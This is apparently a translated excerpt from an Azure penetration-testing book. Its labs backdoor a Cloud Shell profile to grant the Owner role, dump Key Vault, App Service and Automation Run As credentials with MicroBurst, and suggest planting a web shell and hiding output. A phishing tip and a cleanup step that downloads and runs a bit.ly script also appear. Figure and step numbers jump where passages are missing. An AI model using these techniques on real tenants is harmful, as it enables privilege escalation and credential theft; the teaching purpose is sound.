

图6.32 – 修改bashrc文件

13. 要对PowerShell会话执行相同操作，我们需要先在用户的主目录中创建两个目录。PowerShell配置文件将位于此处。如果收到有关目录已存在的错误消息，可以忽略并继续下一步：

```
mkdir .config
mkdir .config/PowerShell
```

14. 与我们对.bashrc文件所做的类似，我们将通过将以下命令添加到PowerShell配置文件中，使contributoruser成为订阅的所有者：

```
echo "New-AzRoleAssignment -UserPrincipalName (Get-AzADUser -StartsWith contributoruser).UserPrincipalName -RoleDefinitionName Owner" >> .config/PowerShell/Microsoft.PowerShell_profile.ps1
```

这是前两个步骤的截图：



图6.33 – PowerShell配置文件修改

15. 使用以下命令从会话中卸载驱动器：

```
cd ..
umount /mnt
```

16. 现在，我们将驱动器上传回存储帐户并覆盖现有版本。首先，我们将获取存储帐户的名称并将其存储在变量中。将<storage_acct_name>替换为原始Cloud Shell文件所下载的存储帐户的名称（以cs前缀开头）：

```
az storage account list --query [].name -o tsv
storagename=<storage_acct_name>
```

这是此操作的截图：



图6.34 – 识别Cloud Shell存储帐户

17. 使用以下命令获取访问密钥和文件共享，并将镜像上传回去。将<download_location>替换为你在本练习第8步中记下的位置：

```
key=$(az storage account keys list -n $storagename --query [0].value -o tsv)
```

```
csfileshare=$(az storage share list --account-key $key --account-name $storagename --query [].name -o tsv)
```

```
az storage file upload --account-key $key --account-name $storagename --share-name $csfileshare --path ".cloudconsole/acc_azureadmin.img" --source "<download_location>/.cloudconsole/acc_azureadmin.img"
```

之后上传过程将开始。这将覆盖共享中的现有文件。这是此操作的截图：



图6.35 – 上传修改后的.img文件

18. 最后，我们需要以azureadmin用户账户打开Cloud Shell实例来触发攻击。为此，我们将以azureadmin账户登录，并在门户中打开Cloud Shell。从下面的截图中可以看到，我们的命令已在Cloud Shell实例中执行，并且我们的contributoruser账户现在已成为订阅的所有者：



图6.36 – 将contributoruser添加为所有者

作为攻击者，我们可能希望在此场景中稍微隐蔽一些。为了抑制我们在前面截图中看到的消息，可以在PowerShell命令的末尾使用| out-null函数来重定向输出。或者，我们可以在Bash shell攻击的末尾使用&>/dev/null。这将防止命令执行显示在管理员Cloud Shell的输出中。

> **重要说明**
> 在实际攻击场景中，受害者Cloud Shell账户可能需要一段时间才能打开新会话。为加快此过程，你可以发送一封包含https://shell.azure.com/链接的钓鱼邮件。该链接不仅看起来合法，而且一旦加载站点，就会启动Cloud Shell会话。

19. 现在，让我们验证确实已将权限提升为Owner角色。我们可以在Lava中运行priv_show命令来验证这一点：

```
cd ~/lava
python3 lava.py
exec priv_show
```

你应该能够看到，由于成功的权限提升攻击，用户现在已被分配OWNER角色：



图6.37 – 使用Lava确认修改后的角色

因此，既然我们已经验证攻击成功，让我们从Contributor用户中移除OWNER角色分配，以便我们仅使用Contributor角色完成剩余练习。

20. 在你以azureadmin用户登录的Cloud Shell（PowerShell）环境中，逐行运行以下命令，以移除Contributor用户的Owner角色分配：

```
$upnsuffix=$(az ad signed-in-user show --query userPrincipalName --output tsv | sed 's/.*@//')
$contributoruser = "contributoruser@$upnsuffix"
$contributoruserid=$(az ad user list --upn $contributoruser --query [].objectId -o tsv)
az role assignment delete --assignee $contributoruserid --role "Owner"
```


以下是输出的截图和要删除的行：



图 6.40 – 删除 .bashrc 文件的修改

现在我们已经看到了 Cloud Shell 如何被滥用，让我们来看看如何从 Azure Key Vaults 中收集敏感信息。

### 从 Key Vaults 中掠夺密钥、机密和证书

Azure Key Vault 是在 Azure 平台中管理应用程序机密、密钥和证书的服务（图 6.41）。Key Vault 的主要用例是为应用程序开发人员提供一种安全的方式，将其代码在运行时需要使用的敏感信息集中存储，而不使该信息成为代码的一部分。常见存储在 Key Vault 中的敏感信息可能是令牌、密码、数据存储连接字符串、API 密钥和其他机密类型。



图 6.41 – 应用程序如何访问 Key Vault

正如你所能想象的，像 Key Vault 这样的服务通常是攻击者的热门目标，因为它可能包含可用于在攻击链中横向移动或用于解密加密信息的信息。

对 Key Vault 资源的访问通过两个平面进行控制（图 6.42） – 管理平面，其端点为 `management.azure.com`，以及数据平面，其端点为 `<vault-name>.vault.azure.com`（图 6.42）。**管理平面**是管理员与之交互以执行管理操作的端点，例如创建和删除 Key Vault 实例、检索 Key Vault 属性以及更新访问策略。

**数据平面**是应用程序与之交互以访问存储在保管库中的敏感信息（机密、密钥和证书）的接口。此平面上可以执行的操作包括读取、添加、删除或修改密钥、机密和证书。



图 6.42 – 管理平面与数据平面访问

管理平面和数据平面都使用 **Azure Active Directory（Azure AD）** 进行身份验证，但其授权方式不同。管理平面使用 **Azure 基于角色的访问控制（Azure RBAC）** 管理权限，而数据平面使用 Key Vault 访问策略，但也可以使用 Azure RBAC 数据权限（参见以下说明）。微软故意采用这种方法，以便组织能够将需要管理级别权限的角色与需要访问敏感信息的角色分开。这里的思路是，对管理平面的访问不一定会给予对数据平面的访问。

> **重要说明**
> 在本书撰写之时，有一个新发布的特性允许使用 Azure RBAC 来控制对数据平面的授权访问。微软新增了九个新的服务级别角色，包括 Key Vault Administrator、Key Vault Certificates Officer 和 Key Vault Crypto Officer，这些角色授予在数据平面上执行不同级别操作的权限。在你的侦察活动中请记住这些角色。

从攻击角度来看，Contributor 角色默认对 Key Vault 资源的数据平面没有任何权限。然而，我们可以利用其更新访问策略的权限来提升对数据平面的权限 – `Microsoft.KeyVault/vaults/accessPolicies/write`。MicroBurst、PowerZure 和 Lava 等工具利用此功能来转储 Key Vault 资源中的敏感信息。

在审查密钥保管库时，重要的是首先查看访问策略，看看你的当前用户账户是否对保管库有权限。如果你的用户没有保管库的权限，并且你试图保持隐蔽，你可能需要查看如何使用其他授权的安全主体访问保管库。在许多情况下，这些权限会应用于自动化 `Run as` 账户（见本章后面）、应用注册和/或托管标识。

以下是使用替代主体访问密钥保管库的一些选项：

- **自动化账户**：创建一个使用 `Run as` 账户访问密钥保管库的新运行手册。
- **应用注册**：以应用注册身份进行身份验证并访问密钥保管库。
- **托管标识**：为该标识生成 REST API 令牌以访问密钥保管库。

这些选项中的每一个允许你访问保管库的方式都非常不同，但与更改访问策略相比，它们可能是访问保管库更隐蔽的选择。

在下一个动手练习中，我们将使用 MicroBurst 利用 Contributor 角色大规模利用 Key Vault 资源。

以下是泄露信息的截图：



图 6.46 – Get-AzPasswords 输出显示在 GridView 中

值得注意的是，一些机密的值中会有关于它们所属资源的信息。例如，数据库或存储账户连接字符串。而其他机密只会是机密信息本身，没有其所属资源或服务的上下文。

一种了解机密被使用位置的方法是审查访问策略。这将允许我们看到哪些应用程序/资源正在使用这些敏感信息。例如，如果一个名为 app1 的托管标识对保管库中的机密具有读取访问策略分配，你可能会推断出分配了 app1 托管标识的资源会使用这些机密。你也可以审查资源的诊断日志（如果已启用并且你的凭据有权读取）以查看 API 调用来自何处。

使用 Azure Key Vault 和 Contributor 角色的另一种攻击模式是添加一个访问策略，允许我们在供应链攻击中生成受信任的证书。密钥保管库允许客户与受支持的第三方证书颁发机构集成，例如 DigiCert 和 GlobalSign，以简化组织受信任 TLS 证书的签发和管理（图 6.47）：



图 6.47 – Key Vault 证书生成流程

请将本章加入书签，因为密钥保管库通常包含在 Azure 环境中提升权限所需的机密。除密钥保管库外，还有 Azure Web 应用，它们经常包含可用于权限提升和横向移动的凭据（和托管标识）。

### 利用 Web 应用进行横向移动和提升权限

Azure Web 应用通常在订阅中用于托管 Web 应用程序和 API。虽然我们之前提到过滥用托管标识的利用，但我们尚未介绍应用程序通常如何被管理。

应用程序代码可以通过多种不同的方式应用到 App Service 主机。部署中心可以与多种不同的代码存储库解决方案集成以与 CI/CD 管道同步，或代码可以通过手动部署推送。



图 6.48 – App Service 部署中心

以下是完成此任务的步骤：

- 1. 使用我们之前配置的 PowerShell 会话，使用 Get-AzPasswords 函数执行 App Service 的凭据转储：

    ```
    Get-AzPasswords -AutomationAccounts N -StorageAccounts N -Keys N -ACR N -CosmosDB N -Verbose | Out-GridView
    ```

- 2. 在提示选择 Azure 订阅时，选择你的测试 Azure 订阅并点击确定：

    

    图 6.50 – 选择适当的订阅

- 3. 在 resulting 输出中，你应该会看到从 App Service 配置中转储的凭据。

    

    图 6.51 – MicroBurst App Service 输出


既然我们已经获得了应用服务发布配置文件，我们接下来将了解这些凭据如何与该应用程序配合使用。

### 在应用服务中的横向移动、权限提升和持久化

从应用服务发布配置文件获取凭据后，我们有几种选择来实现持久化、横向移动和/或提升权限。首先，我们要审查应用程序文件，以查找可能存储在先前的现有配置文件或应用程序代码中的任何凭据。最简单的方法是通过连接到与该应用程序关联的 FTP 服务器。你可以在 Azure 门户（应用服务 → 部署中心 → FTP 凭据）中获取 FTP 服务器端点。你也可以通过运行以下命令，使用 Azure CLI 获取该端点：

```
```bash
az webapp deployment list-publishing-profiles --name <app-name> --resource-group <group-name> --query "[? ends_with(profileName, 'FTP')].{profileName: profileName, publishUrl: publishUrl}"
```
```

然后你可以使用 FTP 客户端进行连接。如果你没有偏好的 FTP 客户端，也可以使用带有 FTP:// 路径的 Windows 资源管理器。



此时，我们还可以上传一个 Web Shell，从而保持对应用服务器的持久访问，并允许我们运行命令来为任何关联的托管身份生成令牌。如果你选择这种方法，请确保使用你信任的 Web Shell，并为其设置密码保护，以防其他攻击者访问你的 Shell。

该界面即为 Kudu（`https://github.com/projectkudu/kudu`）服务，它可以提供多种不同的攻击选项。该界面提供 CMD 和 PowerShell 控制台、文件浏览器以及所有环境设置和变量的导出。

此外，该界面无需向 Azure AD 进行身份验证即可使用。通过访问受影响站点上的 `https://$APP_NAME.scm.azurewebsites.net/basicauth` 页面，你只需输入发布配置文件中的凭据即可。如果你需要重新获得对订阅的访问权限，这将非常方便。

> **重要说明**
> 
> 虽然我们在本章中已经介绍了一些横向移动的选项，但其中一位作者之前撰写过一篇博客文章，更深入地探讨了其中一些技术：`https://blog.netspi.com/lateral-movement-azure-app-services/`。

作为本节的最后一点，我们要提到，应用服务应用经常附加托管身份。由于我们之前已经介绍了使用托管身份提升权限的方法（*第5章，利用 IaaS 服务上的参与者权限*），我们想在此指出，这是在攻击应用服务应用时值得关注的一个选项。本章场景创建的应用确实带有一个附加的托管身份，虽然我们没有为其提供练习，但你仍然可以使用示例应用服务应用来练习托管身份利用技能。

接下来进入本章的最后一节，我们将回顾自动化账户以及如何从它们中提取凭据。

### 从自动化账户中提取凭据

与许多云环境相关的目标之一是自动化。它可以简单到自动执行系统配置更改和补丁管理，也可以复杂到自动轮换 Web 应用上的 SSL 证书并将其存储在 Key Vault 中。

这些操作可以通过在自动化账户中的**运行手册**中运行代码来完成。这些运行手册只是存储在自动化账户中的代码块。代码可以使用 PowerShell 或 Python（2 或 3）编写，而浏览器内编辑器使得将常见的 Azure 管理功能集成到代码中变得非常容易。



*图 6.55 – 创建运行手册的选项*

在 Azure 中可以自动化的任务有成千上万种，但这些操作通常需要访问租户中的安全主体或外部服务的凭据。对于安全主体而言，可以在自动化账户中添加一个 Run as 账户。该账户可以在订阅或租户内被授予权限，运行手册可以使用该账户代表其进行操作。

此外，还可以为 Run as 账户授予 Key Vault 的访问策略权限。这样，该账户就可以从 Key Vault 中获取它可能需要的任何明文凭据，而不是将凭据存储在自动化账户中，或作为变量存储在运行手册代码本身中。

> > **重要说明**
> >
> > 由于在环境中经常使用自动化账户访问 Key Vault，MicroBurst 工具包中添加了一个函数，用于使用自动化账户运行手册自动提取 Key Vault 值。请查看这篇 NetSPI 博客，以更好地了解提取过程，以及它如何导致发现 CVE-2019-0962 漏洞：
> > https://www.netspi.com/blog/technical/cloud-penetration-testing/azure-automation-accounts-key-stores/.

```
```powershell
$Cert = $RunAsCert.Export('pfx','CertificatePassword')
Set-Content -Value $Cert -Path $CertificatePath -Force
-Encoding Byte | Write-Verbose
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath'))
$base64string
```
```

4. 最后，我们可以查看作业输出以恢复凭据。可以从 Base64 字符串将证书转换回 `pfx` 文件，并且存储的凭据应以明文形式提供。

通过以这种方式写入输出，我们可能会无意中向权限较低的用户暴露环境凭据。为避免这种情况，`Get-AzPasswords` 函数会生成一个证书，用于在传输过程中对凭据进行加密。这可以防止任何旁观者从输出日志中获取明文凭据。

让我们看看在下一个动手练习中，如何使用 MicroBurst 中的 `Get-AzPasswords` 函数来自动化该过程。

## 动手练习 – 在测试自动化账户中创建 Run as 账户

由于 Run as 账户跨越了订阅和 Azure AD 的边界，我们无法通过编程方式创建这些账户并将其附加到新的自动化账户。幸运的是，这个过程非常简单。下面是我们将在本练习中完成的任务：

- **任务 1：** 为 Azure 自动化账户创建一个 Run as 账户。

以下是完成此任务的步骤：

- 1. 以 `azureadmin` 账户或订阅所有者身份登录。
- 2. 导航到“**自动化账户**”部分。
- 3. 选择现有的自动化账户或创建一个新账户。
  如果你要创建新的自动化账户，可以随账户一起创建 Run as 账户。
- 4. 在菜单边栏中选择“**Run as 账户**”。

5. 在菜单中选择“**创建 Azure Run As 账户**”。



图 6.56 – 创建 Run as 账户

6. 在下一个窗口中，选择“**创建**”按钮。

这就是我们需要做的全部操作！现在，我们有了一个 Run as 服务主体账户，可以从示例自动化账户中提取信息。默认情况下，此账户将在其创建的订阅上被分配“参与者（Contributor）”角色。

## 动手练习 – 从自动化账户中提取存储的密码和证书

与其他示例非常相似，Get-AzPasswords 函数使我们能够非常轻松地从自动化账户中收集凭据：

- 1. 使用我们之前配置的“参与者（Contributor）”账户启动经过身份验证的 PowerShell 会话，并使用 Get-AzPasswords 函数对自动化账户执行凭据转储：

```
```powershell
Get-AzPasswords -AppServices N -StorageAccounts N -Keys N
-ACR N -CosmosDB N -Verbose | Out-GridView
```
```


6. 为了验证概念，请运行 `AuthenticateAs-automation-acct-AzureRunAsConnection.ps1` 脚本，以 RunAs 帐户身份登录。

```
PS C:\Users\pentestadmin\MicroBurst> 
PS C:\Users\pentestadmin\MicroBurst> .\AuthenticateAs-automation-acct-AzureRunAsConnection.ps1

PSParentPath:
Microsoft.PowerShell.Security\Certificate::LocalMachine\My

Thumbprint                                      Subject
5E350AC6336F782C3BA500B82FEB82C75E20F93D       DC=automation-acct_pentest-...

Environments : {[AzureChinaCloud, AzureChinaCloud], [AzureCloud, AzureCloud], [AzureGermanCloud, AzureGermanCloud], [AzureUSGovernment, AzureUSGovernment]}
Context      : Microsoft.Azure.Commands.Profile.Models.Core.PSAzureContext
```

图 6.60 – 使用导出的 PowerShell 脚本进行身份验证

7. 使用以下命令确认当前用户上下文：

```
(Get-AzContext).Account
```

以下是上述命令的屏幕截图：

```
PS C:\Users\pentestadmin\MicroBurst> (Get-AzContext).Account

Id                  : ba5cceb4-96ea-4870-9ade-3bc1850ea86
Type                : ServicePrincipal
Tenants             : {40d5707e-b434-4f10-9d7d-21842b956935}
AccessToken         :
Credential          :
TenantMap           : {}
CertificateThumbprint : 5E350AC6336F782C3BA500B82FEB82C75E20F93D
ExtendedProperties  : {[Subscriptions, 204cce89-27de-4669-848b-04c27255605e], [Tenants, 40d5707e-b434-4f10-9d7d-21842b956935], [CertificateThumbprint, 5E350AC6336F782C3BA500B82FEB82C75E20F93D]}
```

图 6.61 – 确认服务主体身份验证

现在，我们已经获得了 Automation 帐户的明文凭据，以及一个可用于以 Run as 帐户身份进行身份验证的私有证书。由于默认情况下会为 Run as 帐户配置 Contributor 角色，这意味着我们很可能已经在订阅中拥有一个持久的 Contributor 帐户。

> **重要提示**
> 
> 由于我们并不总是能够获得 Azure 中 Contributor 帐户的凭据，因此还可以使用 REST API 令牌来提取 Automation 帐户的 Run as 凭据。请查看 MicroBurst 中的 `Get-AzAutomationAccountCredsREST` 函数，以了解如何使用令牌提取 Automation 帐户凭据：
> 
> `https://github.com/NetSPI/MicroBurst/blob/master/REST/Get-AzAutomationAccountCredsREST.ps1`。

此外，如果 Run as 帐户被授予了超出默认 Contributor 角色的其他角色，我们或许可以利用这些凭据提升权限，或横向移动到其他订阅。

虽然这种情况并不常见，但作者曾见过被授予根管理组 Owner 权限的 Run as 帐户。在大多数情况下，这样做是为了允许 Automation 帐户同时自动化管理所有订阅中的更改。这样一来，任何拥有该 Automation 帐户 Contributor 访问权限的人，都可以继承根管理组角色，并接管所有订阅。

### 实践练习 – 清理 Contributor（PaaS）利用场景

在最后一项练习中，我们将使用清理脚本，自动删除为本章场景设置的资源。以下是本练习中要完成的任务：

- 从 GitHub 下载清理脚本。
- 运行脚本，删除为这些场景创建的对象和资源。

完成这些任务的步骤如下：

1. 打开 Web 浏览器，访问 Azure 门户 `https://portal.azure.com`。使用 `azureadmin` 凭据登录。
2. 在 Azure 门户中，单击右上角的 **Cloud Shell** 图标。选择 **PowerShell**：


图 6.62 – 打开 Cloud Shell

3. 在 Cloud Shell 窗格中的 PowerShell 会话内，运行以下命令，下载并验证用于删除本章场景所创建资源的脚本：

```powershell
PS C:\> Invoke-WebRequest https://bit.ly/contributor-paas-scenarios-cleanup -O contributor-paas-scenarios-cleanup.ps1
PS C:\> Get-ChildItem
```

以下是其显示效果的屏幕截图：



图 6.63 – 下载脚本的结果

4. 使用以下命令运行下载的脚本，删除本章练习所创建的对象和资源：

```powershell
PS C:\> ./contributor-paas-scenarios-cleanup.ps1
```

### 延伸阅读

如需进一步了解相关主题，请参阅以下资源：

- Azure 控制平面和数据平面：
  `https://docs.microsoft.com/en-us/azure/azure-resource-manager/management/control-plane-and-data-plane`
- Azure RBAC 内置角色：
  `https://docs.microsoft.com/en-us/azure/role-based-access-control/built-in-roles`
- Key Vault RBAC 指南：
  `https://docs.microsoft.com/en-us/azure/key-vault/general/rbac-guide`
